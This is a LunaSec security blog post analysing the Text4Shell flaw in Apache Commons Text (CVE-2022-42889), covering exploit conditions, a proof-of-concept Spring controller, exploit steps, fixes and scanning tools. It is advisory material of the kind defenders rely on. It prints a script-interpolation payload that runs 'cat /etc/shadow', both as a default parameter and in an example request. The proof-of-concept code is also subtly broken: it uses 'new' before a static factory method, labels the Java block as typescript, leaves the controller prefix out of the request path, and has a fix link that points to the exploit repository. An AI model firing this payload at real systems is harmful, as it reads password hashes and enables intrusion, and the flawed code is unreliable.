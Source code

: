 ```yaml
---
title: "Text4Shell: A Vulnerability in Java library Apache Commons Text (CVE-2022-42889, Act4Shell)"
description: "LunaSec Security Researchers provide a detailed analysis of the vulnerability in Apache Commons Text library (CVE-2022-42889, aka Text4Shell or Act4Shell) and how it can be exploited to execute arbitrary code on the victim's machine."
slug: text4shell-java-rce-cve-2022-42889
date: 2022-10-19T23:30:00.000Z
keywords: [cybersecurity, strategy, java, action, guide, exploit]
tags: [security, appsec, devsecops, cicd, sdlc, guides]
authors: [free]
---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

<head>
  <meta property="article:modified_time" content="2022-10-20T04:00:00.000Z" />
</head>

<img alt="Text4Shell Logo" src="https://www.lunasec.io/docs/img/blog/text4shell_small.png" style={
  {marginLeft: 'auto', marginRight: 'auto', paddingLeft: '20px', paddingRight: '20px'}
}/>

## What is Text4Shell?

Text4Shell is a vulnerability in the Java library Apache Commons Text. This vulnerability, in specific conditions,
allows an attacker to execute arbitrary code on the victim's machine (Remote Code Execution or "RCE").
The vulnerability was discovered by [Alvaro Muñoz (aka pwntester)](https://twitter.com/pwntester) and
[announced publicly](https://lists.apache.org/thread/n2bd4vdsgkqh2tm14l1wyc3jyol7s1om) on October 13th

Text4Shell was officially assigned the [CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889) identifier.

<!--truncate-->

Note: While the vulnerability is also known as "Act4Shell", we'll be referring to it as "Text4Shell" in this article.

## Who is impacted?

Applications that use the Apache Commons Text library (or that depend on libraries using it) are impacted.

While the name Text4Shell may suggest that this issue is as widespread
[Log4Shell vulnerability](https://lunasec.io/docs/blog/log4shell-cve-2021-44228/), that is fortunately not the case.

Text4Shell is more similar to [Spring4Shell](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/) in that
the conditions for exploitation require a vulnerable pattern in application code in addition to a vulnerable version of
Apache Commons Text being present.

If only the vulnerable version of Apache Commons Text is present, but the vulnerable pattern doesn't also exist, the
Text4Shell cannot be exploited.

We'll go into more detail about that in the next section, but we believe that the real-world impact of Text4Shell to be
limited compared with Log4Shell.

### Should you patch?

While you're _most likely_ not vulnerable to Text4Shell, the devil is in the details, and we believe that you should
either upgrade to version 1.10+ or scan your code for usages of `StringSubstitor.createInterpolator()` or
`StringLookupFactory.INSTANCE.interpolatorStringLookup().lookup()` to verify that they can't accept arbitrary input.

Note: We're still investigating other attack paths like recursive resolutions. If you find any, please let us know!

If you'd like to check if you're vulnerable to Text4Shell (including if new bypasses are found), you can
[configure LunaTrace for free](https://lunatrace.lunasec.io/) to run in your CI and get alerted automatically.

For additional ways to detect Text4Shell, we'll be providing links to other resources at the bottom of this article too.

### Exploit Conditions

**All** the following conditions must be met for Text4Shell to be exploitable:

- Apache Commons Text version 1.5 through 1.9 are vulnerable
    ([version 1.10](https://commons.apache.org/proper/commons-text/changes-report.html#a1.10.0) includes a fix),
- The application must use `StringSubstitutor` in a vulnerable configuration (see POC code below),
- The application must accept arbitrary, attacker controlled input for exploitation to be possible,
- All versions of the JDK are vulnerable (early reports suggest JDK versions 15+ are safe, but new POCs have been
    released that work on JDK 15+).

### Proof-of-Concept Code

There are a few excellent resources available for this vulnerability already, including the original
[GitHub Advisory](https://securitylab.github.com/advisories/GHSL-2022-018_Apache_Commons_Text/) and a
[Docker POC on GitHub](https://github.com/karthikuj/cve-2022-42889-text4shell-docker), and this post will just be
consolidating the information in those resources together.

The following code snippet is a proof-of-concept that demonstrates how the vulnerability can be exploited.

```typescript
/**
* Example of how to exploit Text4Shell vulnerability (CVE-2022-42889).
* A simple Java web server application using the Spring framework based on:
* https://github.com/karthikuj/cve-2022-42889-text4shell-docker
*/

// Import the vulnerable class from Apache Commons Text
import org.apache.commons.text.StringSubstitutor;

import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestMethod;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

@RestController
@RequestMapping("text4shell")
public class ExampleVulnerableText4ShellController {

  @RequestMapping(value = "/vulnerable", method = RequestMethod.GET)
  @ResponseBody
  public String vulnerable(
    // The default value of this parameter is used to demonstrate the vulnerability
    @RequestParam(defaultValue="${script:javascript:java.lang.Runtime.getRuntime().exec('cat /etc/shadow')}")
    String requestInput
  ) {
    // This is the vulnerable method imported from Apache Commons Text.
    StringSubstitutor interpolator = new StringSubstitutor.createInterpolator();

    // This line triggers the exploit
    interpolator.replace(requestInput);

    // Does nothing
    return "foo";
  }
}
```

### Exploit Steps

The following steps demonstrate how the vulnerability can be exploited:

1. The attacker sends a request to the vulnerable endpoint with the following payload:
    `http://localhost:8080/vulnerable?requestInput=${script:javascript:java.lang.Runtime.getRuntime().exec('cat /etc/shadow')}`
2. The request parameter, `requestInput`, `${script:javascript:java.lang.Runtime.getRuntime().exec('cat /etc/shadow')}`, is passed to the
    `StringSubstitutor` class, which is vulnerable to the exploit.
3. The `StringSubstitutor.replace()` method executes the payload which runs `cat /etc/shadow` and returns the contents of the shadow file.
4. At this point, the attacker can execute any command they want here, not just `cat /etc/shadow`. This is just an example
    of how the exploit can be used to execute arbitrary code on the victim's machine.

## How to fix Text4Shell

The simplest fix is to upgrade to Apache Commons Text
[version 1.10](https://github.com/karthikuj/cve-2022-42889-text4shell-docker) or later.

If you're unable to upgrade, please
[join us on Slack](https://join.slack.com/t/lunaseccommunity/shared_invite/zt-178lvngk1-SHS6bMkQS71YWtCne2XWhA), where
we can help you find a workaround.

For help determining if you're affected by this vulnerability, or to determine if you're using Vendor software that may
be vulnerable, please see the resources below to help you scan for Text4Shell across your stack.

### Additional Resources

- [JFrog Text4Shell CLI Scanner](https://github.com/jfrog/text4shell-tools)
- [Grype](https://github.com/anchore/grype)
- [LunaTrace by LunaSec](https://lunatrace.lunasec.io/)

## Stay Informed

If you'd like to stay up to date on the latest vulnerabilities, you can join our mailing list below or follow us on
[Twitter](https://twitter.com/lunasecio).


<ContactForm/>

### Have Questions?

You're welcome to reach out to us if you need help by
[joining our Slack](https://join.slack.com/t/lunaseccommunity/shared_invite/zt-178lvngk1-SHS6bMkQS71YWtCne2XWhA) or by
[emailing us](mailto:contact+text4shell@lunasec.io). You can also
[edit this post on GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2022-10-19-text4shell-cve-2022-42889.mdx)
to suggest changes.

## References

First of all, we just want to say thank you to [Alvaro Muñoz (aka pwntester)](https://twitter.com/pwntester) and
the Apache Commons Text team for their work on resolving this security issue.

- [Apache Commons Text Security Advisory](https://commons.apache.org/proper/commons-text/security.html)
- [Rapid7 Writeup](https://www.rapid7.com/blog/post/2022/10/17/cve-2022-42889-keep-calm-and-stop-saying-4shell/?utm_campaign=sm-blog&utm_source=lunasec)
- [TheRecord Writeup](https://therecord.media/experts-downplay-reach-of-apache-bug-text4shell/)

### Updates

1. 2022-10-19 @ 4pm PDT: Initial post.
2. 2022-10-19 @ 4:30pm PDT: Fixed typos and added more resources.
3. 2022-10-19 @ 5pm PDT: Adding logo.
4. 2022-10-19 @ 6:35pm PDT: Updating text in Impacted section.
5. 2022-10-19 @ 9pm PDT: Fixed broken example code. Added clarifying section about what is required for exploitation.
